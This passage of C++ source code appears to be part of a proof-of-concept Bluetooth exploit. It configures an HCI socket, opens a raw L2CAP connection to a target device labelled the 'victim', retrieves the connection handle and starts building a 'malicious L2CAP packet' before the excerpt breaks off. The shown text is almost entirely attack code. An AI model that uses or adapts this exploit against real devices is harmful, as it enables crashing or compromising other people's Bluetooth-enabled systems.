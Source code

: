 ```c++
    perror("hci_devinfo");
    return 1;
  }

  struct hci_filter flt;
  hci_filter_clear(&flt);
  hci_filter_all_ptypes(&flt);
  hci_filter_all_events(&flt);
  if (setsockopt(hci_socket, SOL_HCI, HCI_FILTER, &flt, sizeof(flt)) < 0) {
    perror("setsockopt(HCI_FILTER)");
    return 1;
  }

  int opt = 1;
  if (setsockopt(hci_socket, SOL_HCI, HCI_DATA_DIR, &opt, sizeof(opt)) < 0) {
    perror("setsockopt(HCI_DATA_DIR)");
    return 1;
  }

  printf("[*] Connecting to victim...\n");

  struct sockaddr_l2 laddr = {0};
  laddr.l2_family = AF_BLUETOOTH;
  laddr.l2_bdaddr = di.bdaddr;

  struct sockaddr_l2 raddr = {0};
  raddr.l2_family = AF_BLUETOOTH;
  raddr.l2_bdaddr = dst_addr;

  int l2_sock;

  if ((l2_sock = socket(PF_BLUETOOTH, SOCK_RAW, BTPROTO_L2CAP)) < 0) {
    perror("socket");
    return 1;
  }

  if (bind(l2_sock, (struct sockaddr *)&laddr, sizeof(laddr)) < 0) {
    perror("bind");
    return 1;
  }

  if (connect(l2_sock, (struct sockaddr *)&raddr, sizeof(raddr)) < 0) {
    perror("connect");
    return 1;
  }

  struct l2cap_conninfo l2_conninfo;
  socklen_t l2_conninfolen = sizeof(l2_conninfo);
  if (getsockopt(l2_sock, SOL_L2CAP, L2CAP_CONNINFO, &l2_conninfo, &l2_conninfolen) < 0) {
    perror("getsockopt");
    return 1;
  }

  uint16_t hci_handle = l2_conninfo.hci_handle;
  printf("[+] HCI handle: %x\n", hci_handle);

  printf("[*] Sending malicious L2CAP packet...\n");
  struct {
    l2cap_hdr hdr;
    uint16_t ctrl;
    uint16_t fcs;
  } packet = {0};
  packet.hdr.len = htobs(sizeof(packet) - L2CAP_HDR_SIZE);
```